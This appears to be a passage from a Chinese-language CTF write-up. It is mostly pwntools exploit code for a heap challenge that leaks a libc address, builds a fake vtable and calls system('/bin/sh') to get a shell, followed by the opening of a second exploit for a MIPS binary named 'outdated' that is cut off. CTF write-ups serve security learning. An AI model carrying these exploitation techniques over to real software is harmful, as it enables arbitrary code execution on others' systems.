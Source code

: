 ```python
add(2,b"a"*0x100+p32(5)+p32(5))
add(2,b"a"*0x100+p32(4)+p32(4))

add(3,b"a"*0x100+p32(2)+p32(2))
add(1,b"a"*0x100+p32(0x10)+p32(0x10)+b"a"*8+p64(0x481))


add(2,b"aaaa")
io.recvlines(1)
arena=u64(io.recv(6).ljust(8,b"\x00"))
logv("arena",hex(arena))

libcbase = arena - 0x203b20
logv("libcbase",hex(libcbase))
'''
题目的
0x00000000001cb42f : /bin/sh
0x000000000009ca97 : mov rdi, qword ptr [rax + 0x640] ; call qword ptr [rax + 0x638]
我的
0x0000000000094ab6 : mov rdi, qword ptr [rax + 0x648] ; call qword ptr [rax + 0x640]
0x00000000001d8678 : /bin/sh
'''
bin_sh=libcbase+0x1cb42f
set_rdi=libcbase+0x9ca97
system=libcbase+0x582d2
logv("system",hex(system))
logv("bin_sh",hex(bin_sh))
##  这里的偏移需要对这gdb去找
add(1,p64(set_rdi)*4+b"W"*0xe0+p32(5)+p32(5)+p64(3)+p64(0xd281)+b"a"*(0x520-0x128)+p64(system)+p64(bin_sh))#+p64(bin_sh))
io.recvuntil("Adopted new pet: ")
vtable=int(io.recv(14),16)+8

logv("vtable",hex(vtable))

add(1,p64(set_rdi)*8)
gdb.attach(io,"b *$rebase(0x143C)")
add(1,b"a"*0x100+p32(5)+p32(5)+p64(3)+p64(0x121)+p64(vtable))

io.interactive()

```

## outdated 

### ida分析

### exp
```python
from pwn import *
from subprocess import getoutput


# initialize the binary
build = 'mipsel32r6-musl'
binary = "./outdated"
elf = context.binary = ELF(binary, checksec=False)
docker = ELF('/usr/bin/docker',checksec=False)
libc = ELF('./libc.so',checksec=False)

gs = """
set architecture mips:isa32r6
```